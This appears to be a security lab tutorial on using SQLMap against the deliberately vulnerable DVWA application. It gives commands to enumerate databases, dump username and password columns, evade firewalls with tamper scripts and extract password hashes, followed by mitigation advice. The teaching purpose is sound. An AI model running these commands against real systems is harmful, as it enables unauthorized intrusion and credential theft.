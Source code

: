 ```yaml
---
title: Automating SQL Injection Using SQLMap
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/406.jpg'
---
```

# Lab 6: Automating SQL Injection Using SQLMap

## **Objective**
Learn how to use **SQLMap**, an open-source penetration testing tool, to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. This lab will also cover techniques for mitigating these vulnerabilities.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with SQLMap Installed**:
   - Verify SQLMap is installed:
     ```bash
     sqlmap --version
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install sqlmap
     ```

2. **Vulnerable Web Application**:
   - Use an intentionally vulnerable application like DVWA (Damn Vulnerable Web Application) or OWASP Juice Shop.
   - **Tip**: Ensure your DVWA security level is set to **low** for easier exploitation.

3. **Basic Understanding of SQL Injection**:
   - Familiarity with SQL commands and how applications use SQL queries to interact with databases.
   - **Insight**: SQL injection manipulates vulnerable queries to access unauthorized data or perform unauthorized actions.

---

## **Step 1: Setting Up the Environment**
1. Start your vulnerable web application.
   - For DVWA, ensure your web server and database server are running.
   - Access DVWA via `http://localhost/dvwa` in your browser.

2. Log in to DVWA (default credentials: `admin` / `password`).
3. Navigate to the **SQL Injection** module.

---

## **Step 2: Identifying the Vulnerable Parameter**
1. In the SQL Injection module of DVWA, enter a test value into the input field (e.g., `1`).
2. Observe the response:
   - If the page behaves differently when you add a single quote (e.g., `1'`), it may be vulnerable to SQL injection.
   - **Insight**: Error messages or unusual behavior are indicators of SQL vulnerabilities.

---

## **Step 3: Running SQLMap**
1. Capture the vulnerable request:
   - Use a browser extension like Burp Suite or OWASP ZAP to intercept and save the HTTP request.
   - Alternatively, note the URL and query string (e.g., `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`).

2. Run SQLMap against the target:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
   ```
   - **`-u`**: Specifies the target URL.

3. Observe SQLMap’s output:
   - SQLMap will test for SQL injection vulnerabilities and display its findings.
   - **Tip**: Use the `--batch` option to skip confirmation prompts in automated scripts.

---

## **Step 4: Extracting Database Information**
1. Enumerate the database:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
   ```
   - **`--dbs`**: Lists available databases.

2. Choose a database and enumerate its tables:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> --tables
   ```
   - Replace `<database_name>` with the target database (e.g., `dvwa`).

3. Choose a table and enumerate its columns:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> --columns
   ```
   - Replace `<table_name>` with the desired table (e.g., `users`).

4. Extract data from a table:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> -C <column_name> --dump
   ```
   - Replace `<column_name>` with the column to extract (e.g., `username,password`).

---

## **Step 5: Advanced SQLMap Options**
1. **Bypassing WAFs (Web Application Firewalls):**
   - Use tamper scripts to evade basic security mechanisms:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --tamper="space2comment"
     ```

2. **Testing All Parameters:**
   - If the application uses multiple parameters, test them all:
     ```bash
     sqlmap -u "http://target.com/page?id=1&name=test" --level=3 --risk=2
     ```
   - **Tip**: Higher `--level` and `--risk` values increase testing intensity.

3. **Identifying Database Type:**
   - Automatically detect the database type:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --dbms=mysql
     ```

4. **Extracting Password Hashes:**
   - Dump and crack password hashes:
     ```bash
     sqlmap -u "http://target.com/vulnerable" -D <database_name> -T <table_name> -C password --dump
     ```

---

## **Step 6: Mitigation Techniques**
1. **Use Parameterized Queries:**
   - Ensure user input is safely handled by the database using prepared statements.

2. **Validate and Sanitize Inputs:**
   - Reject unexpected characters or patterns in user inputs.

3. **Implement Web Application Firewalls (WAFs):**
   - Use a WAF to filter out malicious requests.

4. **Limit Database Privileges:**
   - Restrict user roles to minimize the impact of successful attacks.

5. **Perform Regular Security Audits:**
   - Regularly scan and test applications for vulnerabilities.

---

## **Step 7: Cleaning Up**
1. Remove any test payloads or reset the vulnerable application to its default state.
2. Document your findings and share them responsibly.

---

## **Additional Tips and Insights**
1. **Ethical Considerations:**
   - Only perform SQLMap tests on systems where you have explicit permission to do so.

2. **Automation Benefits:**
   - SQLMap automates much of the manual work involved in exploiting SQL injection vulnerabilities, saving time and reducing human error.

3. **Use in CTFs (Capture The Flag):**
   - SQLMap is a powerful tool for solving CTF challenges that involve web exploitation.

4. **Continuous Practice:**
   - Experiment with different flags, tamper scripts, and configurations to deepen your understanding.

---

## **Key Takeaways**
1. SQLMap is a robust tool for detecting and exploiting SQL injection vulnerabilities.
2. Understanding its features and outputs allows for efficient testing and data extraction.
3. Secure coding practices and regular vulnerability assessments are essential for preventing SQL injection attacks.
